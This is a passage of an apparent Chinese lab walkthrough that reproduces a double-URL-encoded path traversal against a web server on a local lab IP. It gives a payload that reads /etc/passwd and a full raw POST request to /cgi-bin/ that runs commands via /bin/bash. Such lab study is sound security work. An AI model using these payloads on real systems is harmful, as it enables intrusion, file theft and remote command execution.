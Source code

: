 ##### 查看端口

![image-20240712141416493](https://image.201068.xyz/assets/image-20240712141416493.png)

访问8080端口

http://192.168.70.14:8080

#### 2、漏洞利用

##### 原理

`.`一次url编码：`%2e`,

第二次对`2e`编码：`%%32%65`,

![image-20240712142035876](https://image.201068.xyz/assets/image-20240712142035876.png)

或第二次只对`e`进行url编码：`%2%65%`

![image-20240712142109165](https://image.201068.xyz/assets/image-20240712142109165.png)

`../`最终两次url编码变成`%2%65%2%65/`

##### 1、文件读取payload

```
/icons/%2%65%2%65/%2%65%2%65/%2%65%2%65/%2%65%2%65/etc/passwd
```

![image-20240712142419753](https://image.201068.xyz/assets/image-20240712142419753.png)

##### 2、命令执行payload

```
/cgi-bin/%2%65%2%65/%2%65%2%65/%2%65%2%65/%2%65%2%65/bin/bash
```

改为post请求方式

命令

```
echo;whoami
```



```
POST /cgi-bin/%2%65%2%65/%2%65%2%65/%2%65%2%65/%2%65%2%65/bin/bash HTTP/1.1
Host: 192.168.70.14:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-None-Match: "2d-432a5e4a73a80"
If-Modified-Since: Mon, 11 Jun 2007 18:53:14 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

echo;whoami
```
